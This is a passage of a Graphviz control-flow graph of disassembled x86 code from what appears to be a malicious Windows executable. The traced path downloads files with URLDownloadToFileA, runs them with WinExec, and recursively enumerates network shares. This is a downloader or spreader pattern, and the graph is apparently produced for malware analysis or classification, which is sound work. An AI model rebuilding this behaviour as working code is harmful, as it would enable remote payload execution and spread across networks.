a0x004037f4movl_eax_0x00409624 -> a0x004037f9xorl_eax_eax [color="#000000"];
a0x004037f9xorl_eax_eax -> a0x004037fbmovl_eax_0x00409628 [color="#000000"];
a0x004037fbmovl_eax_0x00409628 -> a0x00403800movl_edx_0x0040962c [color="#000000"];
a0x00403800movl_edx_0x0040962c -> a0x00403806movl_0x4edx__eax [color="#000000"];
a0x00403806movl_0x4edx__eax -> a0x00403809movl_eax_0x0040901c [color="#000000"];
a0x00403809movl_eax_0x0040901c -> a0x0040380ecall_0x004036d8 [color="#000000"];
a0x0040380ecall_0x004036d8 -> a0x004036d8xorl_edx_edx [color="#000000"];
a0x004036d8xorl_edx_edx -> a0x004036daleal__12ebp__eax [color="#000000"];
a0x004036daleal__12ebp__eax -> a0x004036ddmovl_fs_edx__ecx [color="#000000"];
a0x004036ddmovl_fs_edx__ecx -> a0x004036e0movl_eax_fs_edx_ [color="#000000"];
a0x004036e0movl_eax_fs_edx_ -> a0x004036e3movl_ecx_eax_ [color="#000000"];
a0x004036e3movl_ecx_eax_ -> a0x004036e5movl_0x403638UINT32_0x4eax_ [color="#000000"];
a0x004036e5movl_0x403638UINT32_0x4eax_ -> a0x004036ecmovl_ebp_0x8eax_ [color="#000000"];
a0x004036ecmovl_ebp_0x8eax_ -> a0x004036efmovl_eax_0x00409620 [color="#000000"];
a0x004036efmovl_eax_0x00409620 -> a0x004036f4ret [color="#000000"];
a0x004036f4ret -> a0x00403813movb_0x0UINT8_0x00409024 [color="#000000"];
a0x00403813movb_0x0UINT8_0x00409024 -> a0x0040381acall_0x00403780 [color="#000000"];
a0x0040381acall_0x00403780 -> a0x00403780pushl_ebp [color="#000000"];
a0x00403780pushl_ebp -> a0x00403781movl_esp_ebp [color="#000000"];
a0x00403781movl_esp_ebp -> a0x00403783pushl_ebx [color="#000000"];
a0x00403783pushl_ebx -> a0x00403784pushl_esi [color="#000000"];
a0x00403784pushl_esi -> a0x00403785pushl_edi [color="#000000"];
a0x00403785pushl_edi -> a0x00403786movl_0x00409624_eax [color="#000000"];
a0x00403786movl_0x00409624_eax -> a0x0040378btestl_eax_eax [color="#000000"];
a0x0040378btestl_eax_eax -> a0x0040378dje_0x004037da [color="#000000"];
a0x0040378dje_0x004037da -> a0x0040378fmovl_eax__esi [color="#000000",label="F"];
a0x0040378fmovl_eax__esi -> a0x00403791xorl_ebx_ebx [color="#000000"];
a0x00403791xorl_ebx_ebx -> a0x00403793movl_0x4eax__edi [color="#000000"];
a0x00403793movl_0x4eax__edi -> a0x00403796xorl_edx_edx [color="#000000"];
a0x00403796xorl_edx_edx -> a0x00403798pushl_ebp [color="#000000"];
a0x00403798pushl_ebp -> a0x00403799pushl_0x4037c6UINT32 [color="#000000"];
a0x00403799pushl_0x4037c6UINT32 -> a0x0040379epushl_fs_edx_ [color="#000000"];
a0x0040379epushl_fs_edx_ -> a0x004037a1movl_esp_fs_edx_ [color="#000000"];
a0x004037a1movl_esp_fs_edx_ -> a0x004037a4cmpl_ebx_esi [color="#000000"];
a0x004037a4cmpl_ebx_esi -> a0x004037a6jle_0x004037bc [color="#000000"];
a0x004037a6jle_0x004037bc -> a0x004037a8movl_ediebx8__eax [color="#000000",label="F"];
a0x004037a8movl_ediebx8__eax -> a0x004037abincl_ebx [color="#000000"];
a0x004037abincl_ebx -> a0x004037acmovl_ebx_0x00409628 [color="#000000"];
a0x004037acmovl_ebx_0x00409628 -> a0x004037b2testl_eax_eax [color="#000000"];
a0x004037b2testl_eax_eax -> a0x004037b4je_0x004037b8 [color="#000000"];
a0x004037b4je_0x004037b8 -> a0x004037b6call_eax [color="#000000",label="F"];
a0x004037b6call_eax -> a0x004044b8subl_0x1UINT8_0x00409704 [color="#000000"];
a0x004044b8subl_0x1UINT8_0x00409704 -> a0x004044bfret [color="#000000"];
a0x004044bfret -> a0x004037b8cmpl_ebx_esi [color="#000000"];
a0x004037b8cmpl_ebx_esi -> a0x004037bajg_0x004037a8 [color="#000000"];
a0x004037bajg_0x004037a8 -> a0x004037a8movl_ediebx8__eax [color="#000000",label="T"];
a0x004037b6call_eax -> a0x0040430csubl_0x1UINT8_0x004095a4 [color="#000000"];
a0x0040430csubl_0x1UINT8_0x004095a4 -> a0x00404313jae_0x0040437e [color="#000000"];
a0x00404313jae_0x0040437e -> a0x00404315movb_0x2UINT8_0x0040800c [color="#000000",label="F"];
a0x00404315movb_0x2UINT8_0x0040800c -> a0x0040431cmovb_0x2UINT8_0x00409036 [color="#000000"];
a0x0040431cmovb_0x2UINT8_0x00409036 -> a0x00404323movl_0x404180UINT32_0x00409000 [color="#000000"];
a0x00404323movl_0x404180UINT32_0x00409000 -> a0x0040432dcall_0x0040319c [color="#000000"];
a0x0040432dcall_0x0040319c -> a0x0040319cpushl_ebx [color="#000000"];
a0x0040319cpushl_ebx -> a0x0040319dxorl_ebx_ebx [color="#000000"];
a0x0040319dxorl_ebx_ebx -> a0x0040319fpushl_0x0UINT8 [color="#000000"];
a0x0040319fpushl_0x0UINT8 -> a0x004031a1call_0x00403194 [color="#000000"];
a0x004031a1call_0x00403194 -> a0x00403194jmp_GetKeyboardType_user32_dll [color="#000000"];
a0x00403194jmp_GetKeyboardType_user32_dll -> GetKeyboardType_user32_dll [color="#000000"];
GetKeyboardType_user32_dll -> a0x004031a6cmpl_0x7UINT8_eax [color="#000000"];
a0x004031a6cmpl_0x7UINT8_eax -> a0x004031a9jne_0x004031c7 [color="#000000"];
a0x004031a9jne_0x004031c7 -> a0x004031c7movl_ebx_eax [color="#000000",label="T"];
a0x004031c7movl_ebx_eax -> a0x004031c9popl_ebx [color="#000000"];
a0x004031c9popl_ebx -> a0x004031caret [color="#000000"];
a0x004031caret -> a0x00404332testb_al_al [color="#000000"];
a0x00404332testb_al_al -> a0x00404334je_0x0040433b [color="#000000"];
a0x00404334je_0x0040433b -> a0x0040433bcall_0x00403290 [color="#000000",label="T"];
a0x0040433bcall_0x00403290 -> a0x00403290fninit_ [color="#000000"];
a0x00403290fninit_ -> a0x00403292fwait_ [color="#000000"];
a0x00403292fwait_ -> a0x00403293fldcw_0x00408010 [color="#000000"];
a0x00403293fldcw_0x00408010 -> a0x00403299ret [color="#000000"];
a0x00403299ret -> a0x00404340movw_0xffffd7b0UINT16_0x0040903c [color="#000000"];
a0x00404340movw_0xffffd7b0UINT16_0x0040903c -> a0x00404349movw_0xffffd7b0UINT16_0x00409208 [color="#000000"];
a0x00404349movw_0xffffd7b0UINT16_0x00409208 -> a0x00404352movw_0xffffd7b0UINT16_0x004093d4 [color="#000000"];
a0x00404352movw_0xffffd7b0UINT16_0x004093d4 -> a0x0040435bcall_0x00404150 [color="#000000"];
a0x0040435bcall_0x00404150 -> a0x00404150movl_0x409648UINT32_edx [color="#000000"];
a0x00404150movl_0x409648UINT32_edx -> a0x00404155xorl_eax_eax [color="#000000"];
a0x00404155xorl_eax_eax -> a0x00404157movl_0x404130UINT32_edxeax4_ [color="#000000"];
a0x00404157movl_0x404130UINT32_edxeax4_ -> a0x0040415eincl_eax [color="#000000"];
a0x0040415eincl_eax -> a0x0040415fcmpl_0x2bUINT8_eax [color="#000000"];
a0x0040415fcmpl_0x2bUINT8_eax -> a0x00404162jne_0x00404157 [color="#000000"];
a0x00404162jne_0x00404157 -> a0x00404157movl_0x404130UINT32_edxeax4_ [color="#000000",label="T"];
a0x00404162jne_0x00404157 -> a0x00404164movl_0x404138UINT32_eax [color="#000000",label="F"];
a0x00404164movl_0x404138UINT32_eax -> a0x00404169movl_eax_0x00409648 [color="#000000"];
a0x00404169movl_eax_0x00409648 -> a0x0040416eret [color="#000000"];
a0x0040416eret -> a0x00404360call_0x00401094 [color="#000000"];
a0x00404360call_0x00401094 -> a0x00401094jmp_GetCommandLineA_kernel32_dll [color="#000000"];
a0x00401094jmp_GetCommandLineA_kernel32_dll -> GetCommandLineA_kernel32_dll [color="#000000"];
GetCommandLineA_kernel32_dll -> a0x00404365movl_eax_0x0040902c [color="#000000"];
a0x00404365movl_eax_0x0040902c -> a0x0040436acall_0x004010dc [color="#000000"];
a0x0040436acall_0x004010dc -> a0x004010dcpushl_ebx [color="#000000"];
a0x004010dcpushl_ebx -> a0x004010ddaddl_0xffffffbcUINT8_esp [color="#000000"];
a0x004010ddaddl_0xffffffbcUINT8_esp -> a0x004010e0movl_0xaUINT32_ebx [color="#000000"];
a0x004010e0movl_0xaUINT32_ebx -> a0x004010e5pushl_esp [color="#000000"];
a0x004010e5pushl_esp -> a0x004010e6call_0x004010ac [color="#000000"];
a0x004010e6call_0x004010ac -> a0x004010acjmp_GetStartupInfoA_kernel32_dll [color="#000000"];
a0x004010acjmp_GetStartupInfoA_kernel32_dll -> GetStartupInfoA_kernel32_dll [color="#000000"];
GetStartupInfoA_kernel32_dll -> a0x004010ebtestb_0x1UINT8_0x2cesp_ [color="#000000"];
a0x004010ebtestb_0x1UINT8_0x2cesp_ -> a0x004010f0je_0x004010f7 [color="#000000"];
a0x004010f0je_0x004010f7 -> a0x004010f7movl_ebx_eax [color="#000000",label="T"];
a0x004010f7movl_ebx_eax -> a0x004010f9addl_0x44UINT8_esp [color="#000000"];
a0x004010f9addl_0x44UINT8_esp -> a0x004010fcpopl_ebx [color="#000000"];
a0x004010fcpopl_ebx -> a0x004010fdret [color="#000000"];
a0x004010fdret -> a0x0040436fmovl_eax_0x00409028 [color="#000000"];
a0x0040436fmovl_eax_0x00409028 -> a0x00404374call_0x004010d4 [color="#000000"];
a0x00404374call_0x004010d4 -> a0x004010d4jmp_GetCurrentThreadId_kernel32_dll [color="#000000"];
a0x004010d4jmp_GetCurrentThreadId_kernel32_dll -> GetCurrentThreadId_kernel32_dll [color="#000000"];
GetCurrentThreadId_kernel32_dll -> a0x00404379movl_eax_0x00409020 [color="#000000"];
a0x00404379movl_eax_0x00409020 -> a0x0040437eret [color="#000000"];
a0x0040437eret -> a0x004037b8cmpl_ebx_esi [color="#000000"];
a0x004037b6call_eax -> a0x004044f0subl_0x1UINT8_0x0040970c [color="#000000"];
a0x004044f0subl_0x1UINT8_0x0040970c -> a0x004044f7ret [color="#000000"];
a0x004044f7ret -> a0x004037b8cmpl_ebx_esi [color="#000000"];
a0x004037b6call_eax -> a0x004045a8subl_0x1UINT8_0x00409710 [color="#000000"];
a0x004045a8subl_0x1UINT8_0x00409710 -> a0x004045afret [color="#000000"];
a0x004045afret -> a0x004037b8cmpl_ebx_esi [color="#000000"];
a0x004037b6call_eax -> a0x00404630subl_0x1UINT8_0x00409714 [color="#000000"];
a0x00404630subl_0x1UINT8_0x00409714 -> a0x00404637ret [color="#000000"];
a0x00404637ret -> a0x004037b8cmpl_ebx_esi [color="#000000"];
a0x004037b6call_eax -> a0x00404670subl_0x1UINT8_0x00409718 [color="#000000"];
a0x00404670subl_0x1UINT8_0x00409718 -> a0x00404677ret [color="#000000"];
a0x00404677ret -> a0x004037b8cmpl_ebx_esi [color="#000000"];
a0x004037b6call_eax -> a0x00404e34subl_0x1UINT8_0x004198c8 [color="#000000"];
a0x00404e34subl_0x1UINT8_0x004198c8 -> a0x00404e3bret [color="#000000"];
a0x00404e3bret -> a0x004037b8cmpl_ebx_esi [color="#000000"];
a0x004037b4je_0x004037b8 -> a0x004037b8cmpl_ebx_esi [color="#000000",label="T"];
a0x004037bajg_0x004037a8 -> a0x004037bcxorl_eax_eax [color="#000000",label="F"];
a0x004037bcxorl_eax_eax -> a0x004037bepopl_edx [color="#000000"];
a0x004037bepopl_edx -> a0x004037bfpopl_ecx [color="#000000"];
a0x004037bfpopl_ecx -> a0x004037c0popl_ecx [color="#000000"];
a0x004037c0popl_ecx -> a0x004037c1movl_edx_fs_eax_ [color="#000000"];
a0x004037c1movl_edx_fs_eax_ -> a0x004037c4jmp_0x004037da [color="#000000"];
a0x004037c4jmp_0x004037da -> a0x004037dapopl_edi [color="#000000"];
a0x004037dapopl_edi -> a0x004037dbpopl_esi [color="#000000"];
a0x004037dbpopl_esi -> a0x004037dcpopl_ebx [color="#000000"];
a0x004037dcpopl_ebx -> a0x004037ddpopl_ebp [color="#000000"];
a0x004037ddpopl_ebp -> a0x004037deret [color="#000000"];
a0x004037deret -> a0x0040381fret [color="#000000"];
a0x0040381fret -> a0x00404483popl_ebx [color="#000000"];
a0x00404483popl_ebx -> a0x00404484ret [color="#000000"];
a0x00404484ret -> a0x004076f1xorl_eax_eax [color="#000000"];
a0x004076f1xorl_eax_eax -> a0x004076f3pushl_ebp [color="#000000"];
a0x004076f3pushl_ebp -> a0x004076f4pushl_0x4077fdUINT32 [color="#000000"];
a0x004076f4pushl_0x4077fdUINT32 -> a0x004076f9pushl_fs_eax_ [color="#000000"];
a0x004076f9pushl_fs_eax_ -> a0x004076fcmovl_esp_fs_eax_ [color="#000000"];
a0x004076fcmovl_esp_fs_eax_ -> a0x004076ffpushl_0x0UINT8 [color="#000000"];
a0x004076ffpushl_0x0UINT8 -> a0x00407701pushl_0x0UINT8 [color="#000000"];
a0x00407701pushl_0x0UINT8 -> a0x00407703pushl_0x40780cUINT32 [color="#000000"];
a0x00407703pushl_0x40780cUINT32 -> a0x00407708pushl_0x407810UINT32 [color="#000000"];
a0x00407708pushl_0x407810UINT32 -> a0x0040770dpushl_0x0UINT8 [color="#000000"];
a0x0040770dpushl_0x0UINT8 -> a0x0040770fcall_0x00405a24 [color="#000000"];
a0x0040770fcall_0x00405a24 -> a0x00405a24jmp_URLDownloadToFileA_urlmon_dll [color="#000000"];
a0x00405a24jmp_URLDownloadToFileA_urlmon_dll -> URLDownloadToFileA_urlmon_dll [color="#000000"];
URLDownloadToFileA_urlmon_dll -> a0x00407714pushl_0x0UINT8 [color="#000000"];
a0x00407714pushl_0x0UINT8 -> a0x00407716pushl_0x0UINT8 [color="#000000"];
a0x00407716pushl_0x0UINT8 -> a0x00407718pushl_0x40782cUINT32 [color="#000000"];
a0x00407718pushl_0x40782cUINT32 -> a0x0040771dpushl_0x40783cUINT32 [color="#000000"];
a0x0040771dpushl_0x40783cUINT32 -> a0x00407722pushl_0x0UINT8 [color="#000000"];
a0x00407722pushl_0x0UINT8 -> a0x00407724call_0x00405a24 [color="#000000"];
a0x00407724call_0x00405a24 -> a0x00405a24jmp_URLDownloadToFileA_urlmon_dll [color="#000000"];
URLDownloadToFileA_urlmon_dll -> a0x00407729pushl_0x0UINT8 [color="#000000"];
a0x00407729pushl_0x0UINT8 -> a0x0040772bpushl_0x40782cUINT32 [color="#000000"];
a0x0040772bpushl_0x40782cUINT32 -> a0x00407730call_0x00404548 [color="#000000"];
a0x00407730call_0x00404548 -> a0x00404548jmp_WinExec_kernel32_dll [color="#000000"];
a0x00404548jmp_WinExec_kernel32_dll -> WinExec_kernel32_dll [color="#000000"];
WinExec_kernel32_dll -> a0x00407735pushl_0x0UINT8 [color="#000000"];
a0x00407735pushl_0x0UINT8 -> a0x00407737pushl_0x0UINT8 [color="#000000"];
a0x00407737pushl_0x0UINT8 -> a0x00407739pushl_0x407894UINT32 [color="#000000"];
a0x00407739pushl_0x407894UINT32 -> a0x0040773epushl_0x4078a4UINT32 [color="#000000"];
a0x0040773epushl_0x4078a4UINT32 -> a0x00407743pushl_0x0UINT8 [color="#000000"];
a0x00407743pushl_0x0UINT8 -> a0x00407745call_0x00405a24 [color="#000000"];
a0x00407745call_0x00405a24 -> a0x00405a24jmp_URLDownloadToFileA_urlmon_dll [color="#000000"];
URLDownloadToFileA_urlmon_dll -> a0x0040774apushl_0x0UINT8 [color="#000000"];
a0x0040774apushl_0x0UINT8 -> a0x0040774cpushl_0x407894UINT32 [color="#000000"];
a0x0040774cpushl_0x407894UINT32 -> a0x00407751call_0x00404548 [color="#000000"];
a0x00407751call_0x00404548 -> a0x00404548jmp_WinExec_kernel32_dll [color="#000000"];
WinExec_kernel32_dll -> a0x00407756call_0x00406530 [color="#000000"];
a0x00407756call_0x00406530 -> a0x00406530pushl_ebp [color="#000000"];
a0x00406530pushl_ebp -> a0x00406531movl_esp_ebp [color="#000000"];
a0x00406531movl_esp_ebp -> a0x00406533addl_0xfffffe1cUINT32_esp [color="#000000"];
a0x00406533addl_0xfffffe1cUINT32_esp -> a0x00406539pushl_ebx [color="#000000"];
a0x00406539pushl_ebx -> a0x0040653apushl_esi [color="#000000"];
a0x0040653apushl_esi -> a0x0040653bpushl_edi [color="#000000"];
a0x0040653bpushl_edi -> a0x0040653cxorl_eax_eax [color="#000000"];
a0x0040653cxorl_eax_eax -> a0x0040653emovl_eax__484ebp_ [color="#000000"];
a0x0040653emovl_eax__484ebp_ -> a0x00406544movl_eax__476ebp_ [color="#000000"];
a0x00406544movl_eax__476ebp_ -> a0x0040654amovl_eax__480ebp_ [color="#000000"];
a0x0040654amovl_eax__480ebp_ -> a0x00406550movl_eax__468ebp_ [color="#000000"];
a0x00406550movl_eax__468ebp_ -> a0x00406556movl_eax__472ebp_ [color="#000000"];
a0x00406556movl_eax__472ebp_ -> a0x0040655cmovl_eax__4ebp_ [color="#000000"];
a0x0040655cmovl_eax__4ebp_ -> a0x0040655fxorl_eax_eax [color="#000000"];
a0x0040655fxorl_eax_eax -> a0x00406561pushl_ebp [color="#000000"];
a0x00406561pushl_ebp -> a0x00406562pushl_0x4066fbUINT32 [color="#000000"];
a0x00406562pushl_0x4066fbUINT32 -> a0x00406567pushl_fs_eax_ [color="#000000"];
a0x00406567pushl_fs_eax_ -> a0x0040656amovl_esp_fs_eax_ [color="#000000"];
a0x0040656amovl_esp_fs_eax_ -> a0x0040656dxorl_eax_eax [color="#000000"];
a0x0040656dxorl_eax_eax -> a0x0040656fcall_0x004063e8 [color="#000000"];
a0x0040656fcall_0x004063e8 -> a0x004063e8pushl_ebp [color="#000000"];
a0x004063e8pushl_ebp -> a0x004063e9movl_esp_ebp [color="#000000"];
a0x004063e9movl_esp_ebp -> a0x004063ebpushl_eax [color="#000000"];
a0x004063ebpushl_eax -> a0x004063ecmovl_0x8UINT32_eax [color="#000000"];
a0x004063ecmovl_0x8UINT32_eax -> a0x004063f1addl_0xfffff004UINT32_esp [color="#000000"];
a0x004063f1addl_0xfffff004UINT32_esp -> a0x004063f7pushl_eax [color="#000000"];
a0x004063f7pushl_eax -> a0x004063f8decl_eax [color="#000000"];
a0x004063f8decl_eax -> a0x004063f9jne_0x004063f1 [color="#000000"];
a0x004063f9jne_0x004063f1 -> a0x004063f1addl_0xfffff004UINT32_esp [color="#000000",label="T"];
a0x004063f9jne_0x004063f1 -> a0x004063fbmovl__4ebp__eax [color="#000000",label="F"];
a0x004063fbmovl__4ebp__eax -> a0x004063feaddl_0xffffffe8UINT8_esp [color="#000000"];
a0x004063feaddl_0xffffffe8UINT8_esp -> a0x00406401pushl_ebx [color="#000000"];
a0x00406401pushl_ebx -> a0x00406402pushl_esi [color="#000000"];
a0x00406402pushl_esi -> a0x00406403pushl_edi [color="#000000"];
a0x00406403pushl_edi -> a0x00406404xorl_edx_edx [color="#000000"];
a0x00406404xorl_edx_edx -> a0x00406406movl_edx__32788ebp_ [color="#000000"];
a0x00406406movl_edx__32788ebp_ -> a0x0040640cmovl_edx__32792ebp_ [color="#000000"];
a0x0040640cmovl_edx__32792ebp_ -> a0x00406412movl_edx__32796ebp_ [color="#000000"];
a0x00406412movl_edx__32796ebp_ -> a0x00406418movl_eax__4ebp_ [color="#000000"];
a0x00406418movl_eax__4ebp_ -> a0x0040641bmovl_0x4198ccUINT32_edi [color="#000000"];
a0x0040641bmovl_0x4198ccUINT32_edi -> a0x00406420xorl_eax_eax [color="#000000"];
a0x00406420xorl_eax_eax -> a0x00406422pushl_ebp [color="#000000"];
a0x00406422pushl_ebp -> a0x00406423pushl_0x406514UINT32 [color="#000000"];
a0x00406423pushl_0x406514UINT32 -> a0x00406428pushl_fs_eax_ [color="#000000"];
a0x00406428pushl_fs_eax_ -> a0x0040642bmovl_esp_fs_eax_ [color="#000000"];
a0x0040642bmovl_esp_fs_eax_ -> a0x0040642eleal__8ebp__eax [color="#000000"];
a0x0040642eleal__8ebp__eax -> a0x00406431pushl_eax [color="#000000"];
a0x00406431pushl_eax -> a0x00406432movl__4ebp__eax [color="#000000"];
a0x00406432movl__4ebp__eax -> a0x00406435pushl_eax [color="#000000"];
a0x00406435pushl_eax -> a0x00406436pushl_0x0UINT8 [color="#000000"];
a0x00406436pushl_0x0UINT8 -> a0x00406438pushl_0x0UINT8 [color="#000000"];
a0x00406438pushl_0x0UINT8 -> a0x0040643apushl_0x2UINT8 [color="#000000"];
a0x0040643apushl_0x2UINT8 -> a0x0040643ccall_0x00404560 [color="#000000"];
a0x0040643ccall_0x00404560 -> a0x00404560jmp_WNetOpenEnumA_mpr_dll [color="#000000"];
a0x00404560jmp_WNetOpenEnumA_mpr_dll -> WNetOpenEnumA_mpr_dll [color="#000000"];
WNetOpenEnumA_mpr_dll -> a0x00406441movl_0x400UINT32__12ebp_ [color="#000000"];
a0x00406441movl_0x400UINT32__12ebp_ -> a0x00406448movl_0x8000UINT32__16ebp_ [color="#000000"];
a0x00406448movl_0x8000UINT32__16ebp_ -> a0x0040644fjmp_0x004064cd [color="#000000"];
a0x0040644fjmp_0x004064cd -> a0x004064cdleal__16ebp__eax [color="#000000"];
a0x004064cdleal__16ebp__eax -> a0x004064d0pushl_eax [color="#000000"];
a0x004064d0pushl_eax -> a0x004064d1leal__32784ebp__eax [color="#000000"];
a0x004064d1leal__32784ebp__eax -> a0x004064d7pushl_eax [color="#000000"];
a0x004064d7pushl_eax -> a0x004064d8leal__12ebp__eax [color="#000000"];
a0x004064d8leal__12ebp__eax -> a0x004064dbpushl_eax [color="#000000"];
a0x004064dbpushl_eax -> a0x004064dcmovl__8ebp__eax [color="#000000"];
a0x004064dcmovl__8ebp__eax -> a0x004064dfpushl_eax [color="#000000"];
a0x004064dfpushl_eax -> a0x004064e0call_0x00404558 [color="#000000"];
a0x004064e0call_0x00404558 -> a0x00404558jmp_WNetEnumResourceA_mpr_dll [color="#000000"];
a0x00404558jmp_WNetEnumResourceA_mpr_dll -> WNetEnumResourceA_mpr_dll [color="#000000"];
WNetEnumResourceA_mpr_dll -> a0x004064e5testl_eax_eax [color="#000000"];
a0x004064e5testl_eax_eax -> a0x004064e7je_0x00406451 [color="#000000"];
a0x004064e7je_0x00406451 -> a0x004064edmovl__8ebp__eax [color="#000000",label="F"];
a0x004064e7je_0x00406451 -> a0x00406451movl__12ebp__esi [color="#000000",label="T"];
a0x00406451movl__12ebp__esi -> a0x00406454decl_esi [color="#000000"];
a0x00406454decl_esi -> a0x00406455testl_esi_esi [color="#000000"];
a0x00406455testl_esi_esi -> a0x00406457jl_0x004064cd [color="#000000"];
a0x00406457jl_0x004064cd -> a0x00406459incl_esi [color="#000000",label="F"];
a0x00406459incl_esi -> a0x0040645aleal__32776ebp__ebx [color="#000000"];
a0x0040645aleal__32776ebp__ebx -> a0x00406460cmpl_0x2UINT8_ebx_ [color="#000000"];
a0x00406460cmpl_0x2UINT8_ebx_ -> a0x00406463jne_0x004064b9 [color="#000000"];
a0x00406463jne_0x004064b9 -> a0x004064b9cmpl_0x0UINT8_0x4ebx_ [color="#000000",label="T"];
a0x004064b9cmpl_0x0UINT8_0x4ebx_ -> a0x004064bdjbe_0x004064c7 [color="#000000"];
a0x004064bdjbe_0x004064c7 -> a0x004064bfleal__8ebx__eax [color="#000000",label="F"];
a0x004064bfleal__8ebx__eax -> a0x004064c2call_0x004063e8 [color="#000000"];
a0x004064c2call_0x004063e8 -> a0x004063e8pushl_ebp [color="#000000"];
a0x00406406movl_edx__32788ebp_ -> a0x00406514jmp_0x004034c4 [color="#000000"];
a0x00406514jmp_0x004034c4 -> a0x004034c4movl_0x4esp__eax [color="#000000"];
a0x004034c4movl_0x4esp__eax -> a0x004034c8movl_0x8esp__edx [color="#000000"];
a0x004034c8movl_0x8esp__edx -> a0x004034cctestl_0x6UINT32_0x4eax_ [color="#000000"];
a0x004034cctestl_0x6UINT32_0x4eax_ -> a0x004034d3je_0x004034f4 [color="#000000"];
a0x004034d3je_0x004034f4 -> a0x004034f4movl_0x1UINT32_eax [color="#000000",label="T"];
a0x004034f4movl_0x1UINT32_eax -> a0x004034f9ret [color="#000000"];
a0x004034f9ret -> a0x00406406movl_edx__32788ebp_ [color="#000000"];
a0x004064bdjbe_0x004064c7 -> a0x004064c7addl_0x20UINT8_ebx [color="#000000",label="T"];
a0x004064c7addl_0x20UINT8_ebx -> a0x004064cadecl_esi [color="#000000"];
a0x004064cadecl_esi -> a0x004064cbjne_0x00406460 [color="#000000"];
a0x004064cbjne_0x00406460 -> a0x00406460cmpl_0x2UINT8_ebx_ [color="#000000",label="T"];
a0x00406441movl_0x400UINT32__12ebp_ -> a0x00406514jmp_0x004034c4 [color="#000000"];
a0x004034f9ret -> a0x00406441movl_0x400UINT32__12ebp_ [color="#000000"];
a0x00406457jl_0x004064cd -> a0x004064cdleal__16ebp__eax [color="#000000",label="T"];
}
